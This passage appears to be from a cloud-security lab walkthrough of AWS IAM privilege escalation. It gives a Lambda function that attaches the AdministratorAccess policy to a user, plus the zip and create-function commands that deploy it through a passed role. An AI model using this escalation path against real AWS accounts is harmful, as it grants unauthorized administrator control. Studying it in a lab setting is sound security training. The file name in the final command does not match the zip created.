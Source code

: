 * Manually add the **SessionToken**.

```bash
vi .aws/credentials
```

<p align="center">
  <img src="/images/cloud/session_token_lambda.png">
</p>

* Create a Lambda Function which will **attach** the Administrator Policy to the chris user.

```python
import boto3
def lambda_handler(event, context):
	client = boto3.client('iam')
	response = client.attach_user_policy(UserName = 'chris-lambda_privesc_cgid2w7yniosir', PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
	return response
```

**Note:** The name of the file needs to be **lambda_function.py**.

* Save the python file in **zip** format using the following command.

```bash
zip lambda_function.zip lambda_function.py
```

* Run the following command to **attach** the policy.

```bash
aws lambda create-function --function-name admin_function --runtime python3.6 --role <cg-debug-role arn> --handler lambda_function.lambda_handler --zip-file fileb://lambda_function.py.zip --profile lambdamanager
```

<p align="center">